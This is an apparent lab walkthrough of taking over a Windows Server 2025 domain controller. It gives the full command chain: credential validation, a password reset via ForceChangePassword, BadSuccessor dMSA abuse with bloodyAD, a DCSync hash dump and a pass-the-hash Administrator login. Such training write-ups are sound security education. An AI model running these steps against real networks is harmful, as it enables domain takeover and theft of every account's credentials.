







Published: January 2026 | HackSmarter Labs
As a member of the Hack Smarter Red Team, the objective is to conduct a comprehensive penetration test of the client's internal environment. The client has a mature security posture with prior penetration testing experience. The goal is to identify overlooked attack vectors.
freyja:Fr3yja!Dr@g0n^12
First, I validated the provided credentials using NetExec to confirm domain access:
$ nxc smb 10.1.17.238 -u freyja -p 'Fr3yja!Dr@g0n^12'
SMB 10.1.17.238 445 MIDGARDDC [+] yggdrasil.hacksmarter\freyja:Fr3yja!Dr@g0n^12A comprehensive port scan revealed the target is a Windows Server 2025 Domain Controller:
$ nmap -p- -T4 -sC -sV -Pn 10.1.17.238Key findings from enumeration:
yggdrasil.hacksmarterMidgardDC.yggdrasil.hacksmarterDuring user enumeration, I discovered a password stored in a user description field - a common misconfiguration:
$ nxc smb 10.1.17.238 -u freyja -p 'Fr3yja!Dr@g0n^12' --users
Thor:[REDACTED]
With Thor's credentials, I collected domain data for BloodHound analysis:
$ nxc ldap 10.1.17.238 -u Thor -p '[REDACTED]' --bloodhound --collection AllBloodHound revealed a clear attack path. Thor has ForceChangePassword rights over the Hodr account:

Further analysis showed that Hodr is a member of Remote Management Users, enabling WinRM access to the Domain Controller:

Using Thor's ForceChangePassword privilege, I reset Hodr's password:
$ net rpc password 'Hodr' 'Zerotrace123!' -U 'yggdrasil.hacksmarter'/'Thor'%'[REDACTED]' -S MidgardDC.yggdrasil.hacksmarterWith the new password, I established a WinRM session as Hodr:
$ evil-winrm -i 10.1.17.238 -u Hodr -p 'Zerotrace123!'
*Evil-WinRM* PS C:\Users\Hodr.YGGDRASIL\Documents>C:\Users\Hodr.YGGDRASIL\Desktop\user.txt
Exploring the system, I found PowerShell scripts for dMSA management in C:\scripts:
*Evil-WinRM* PS C:\scripts> .\dmsa_find.ps1
[*] Retrieving all dMSAs from the domain...
Name : svc_iis_dMSA$
Enabled : True
Delegation : Legacy / Not DelegateddMSAs are a new feature in Windows Server 2025 designed to replace legacy service accounts. They automatically rotate passwords and can inherit permissions from predecessor accounts during migration. This "inheritance" mechanism is the core of the BadSuccessor vulnerability.
The BadSuccessor vulnerability (discovered by Akamai researcher Yuval Gordon in May 2025) exploits a critical flaw in dMSA migration:
msDS-ManagedAccountPrecededByLink pointing to legacy accountsmsDS-DelegatedMSAState attribute indicates migration statusAttack Requirements:
CreateChild permission on an OUGenericAll/WriteDACL on an OUWriteProperty on an existing dMSAI enumerated OUs to find where we have the necessary permissions:
Import-Module ActiveDirectory
$OUs = Get-ADOrganizationalUnit -Filter * -Properties nTSecurityDescriptor
foreach ($OU in $OUs) {
$acl = Get-Acl "AD:$($OU.DistinguishedName)"
foreach ($ace in $acl.Access) {
if ($ace.ActiveDirectoryRights -match "CreateChild|GenericAll|WriteDACL|WriteOwner") {
if ($ace.IdentityReference -match "Hodr|webServerAdmins") {
Write-Host "[!] $($ace.IdentityReference) has $($ace.ActiveDirectoryRights) on $($OU.DistinguishedName)"
}
}
}
}
The webServerAdmins group (which Hodr is a member of) has CreateChild permissions on the "Web Servers" OU - exactly what we need for the BadSuccessor attack.
NetExec has a built-in module to check for BadSuccessor vulnerability:
$ nxc ldap 10.1.17.238 -u Hodr -p 'Zerotrace123!' -M badsuccessor
First, I installed BloodyAD for the exploitation:
$ python3 -m venv .venv
$ source .venv/bin/activate
$ pip install bloodyadThen created a malicious dMSA that inherits Administrator privileges:
$ bloodyAD -d yggdrasil.hacksmarter -u 'Hodr' -p 'Zerotrace123!' \
--host MIDGARDDC.yggdrasil.hacksmarter \
add badSuccessor evil_dmsa1 \
--ou 'OU=Web Servers,OU=Yggdrasil Servers,DC=yggdrasil,DC=hacksmarter'
The tool outputs a Kerberos ccache file with Administrator privileges, ready for immediate use.
To use the obtained Kerberos ticket, I configured the local Kerberos environment:
$ sudo apt install krb5-userConfigure /etc/krb5.conf:
[libdefaults]
default_realm = YGGDRASIL.HACKSMARTER
rdns = false
dns_lookup_realm = false
dns_lookup_kdc = false
[realms]
YGGDRASIL.HACKSMARTER = {
kdc = MIDGARDDC.yggdrasil.hacksmarter
admin_server = MIDGARDDC.yggdrasil.hacksmarter
}
[domain_realm]
.yggdrasil.hacksmarter = YGGDRASIL.HACKSMARTER
yggdrasil.hacksmarter = YGGDRASIL.HACKSMARTERUpdate /etc/hosts:
10.1.66.173 yggdrasil.hacksmarter MidgardDC MidgardDC.yggdrasil.hacksmarterWith the malicious dMSA ticket, I performed a DCSync attack to dump all domain secrets:
$ export KRB5CCNAME=evil_dmsa1_Pv.ccache
$ secretsdump.py -k -no-pass 'yggdrasil.hacksmarter/evil_dmsa1$'@MidgardDC.yggdrasil.hacksmarterDCSync abuses domain replication protocols to request password hashes from a Domain Controller, effectively extracting the entire NTDS.dit database remotely. It requires Replicating Directory Changes (All) permissions, which domain controllers and certain privileged accounts possess. The malicious dMSA inherits these permissions from the Administrator account.
Using the extracted Administrator NTLM hash, I established a privileged session:
$ evil-winrm -i 10.1.17.238 -u Administrator -H '[REDACTED]'
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
Walkthrough by Zerotrace | HackSmarter Labs